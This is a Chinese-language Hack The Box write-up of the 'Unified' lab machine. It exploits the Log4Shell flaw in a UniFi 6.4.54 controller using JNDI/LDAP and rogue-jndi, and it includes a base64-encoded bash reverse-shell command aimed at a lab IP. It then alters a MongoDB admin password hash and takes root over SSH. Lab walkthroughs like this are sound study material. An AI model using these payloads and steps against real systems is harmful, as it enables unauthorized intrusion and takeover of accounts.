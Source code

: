 # 7x15HTB系列——[Unified]UniFiCMS log4j远程代码执行

## 一、信息收集

1. 端口扫描

   ![1.png](img/HTB/Unified/1.png)

   ![2.png](img/HTB/Unified/2.png)

2. 发现开放22、6789、8080、8443端口，其中8080端口通过http-proxy代理跳转到8443端口，访问一下

   ![3.png](img/HTB/Unified/3.png)

3. 跳转到8443端口，界面是一个叫做UniFi的CMS登陆界面，版本6.4.54，界面中发现一个熟悉的字眼“Remember me”，感觉可能存在java的漏洞，搜索一下该版本CMS的历史漏洞信息

   ![4.png](img/HTB/Unified/4.png)

4. UniFi 6.4.54存在log4j远程代码执行漏洞

## 二、漏洞验证

1. 打开BurpSuite抓包，利用jndi构造请求代码，利用ldap协议对kali发起请求，同时开启tcpdump监听本地389端口

   ![5.png](img/HTB/Unified/5.png)

2. 可以看到回显数据包中显示了请求的执行信息，说明ldap请求代码被执行了，再看一下tcpdump对389端口的监听情况，发现收到了目标主机的ldap请求报文，验证了确实存在log4j远程代码执行漏洞

   ![6.png](img/HTB/Unified/6.png)


## 三、getshell

1. 利用rogue-jndi对log4j进行利用，需要先配置

   - 先安装maven

     ```shell
     sudo apt -y install maven
     ```

   - 然后执行以下命令，利用maven编译jar

     ```shell
     git clone https://github.com/veracode-research/rogue-jndi
     cd rogue-jndi
     mvn package
     ```

   - 当出现BUILD SUCCESS时，编译就成功了

     ![7.png](img/HTB/Unified/7.png)

2. 看一下rogue-jndi的参数

   - -c，后面接要执行的命令
   - -n，jdni服务器地址，这里是本机IP

![8.png](img/HTB/Unified/8.png)

3. 构造一条反弹shell的命令，为防止数据传输过程中shell丢失，对命令进行base64编码

   ```shell
   echo 'bash -c bash -i >&/dev/tcp/10.10.16.9/4444 0>&1' | base64
   ```

   ![8.png](img/HTB/Unified/9.png)

6. 利用rogue-jndi执行编码后的命令，启动jndi

   ```shell
   java -jar RogueJndi-1.1.jar -c "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuOS80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}" -n "10.10.16.9"
   ```

   ![10.png](img/HTB/Unified/10.png)

4. nc开启监听，然后回到BurpSuite，重新请求ldap

   ![11.png](img/HTB/Unified/11.png)

5. 查看nc，成功获取shell

   ![12.png](img/HTB/Unified/12.png)


## 四、权限提升

1. 转换交互式shell

   ```shell
   script /dev/null -c bash
   ```

2. 查看当前进程，发现运行了一个mongod进程，说明使用了mongo数据库

   ![13.png](img/HTB/Unified/13.png)

3. 查看mongo数据库进程信息，服务进程运行在127.0.0.1的27117端口上

   ![14.png](img/HTB/Unified/14.png)

4. mongo的默认数据库名是ace，使用系统命令查看mongo的用户信息

   ```shell
   mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
   ```

   ![15.png](img/HTB/Unified/15.png)

5. 成功获取到管理员密码，但是密码强度很高，而且是sha-512加密的，没有解密出来，可以修改密码为弱类型，先得到一个sha512加密的弱密码，可以使用kali自带工具mkpasswd

   ![16.png](img/HTB/Unified/16.png)

   ![17.png](img/HTB/Unified/17.png)

6. 使用mongo系统命令修改密码为123456

    ```shell
    mongo --port 27117 ace --eval 'db.admin.update({"_id":
    ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$LMSA6JPqg7IVn6Hg$WprGGu8B61mCJzl.048/x/1xne5XH.6jIaFORir2y.5VU9mJyWAURIzfcRs7zwXTQe08UiKeHQ4HPOll20spf0"}})'
    ```

    ![18.png](img/HTB/Unified/18.png)

7. 使用修改的管理员账号密码登录UniFi后台

    ![19.png](img/HTB/Unified/19.png)

8. 在后台设置中找到了ssh的root用户的密码，而且可以查看

    ![20.png](img/HTB/Unified/20.png)

9. 使用ssh连接，成功获取root权限

    ![21.png](img/HTB/Unified/21.png)
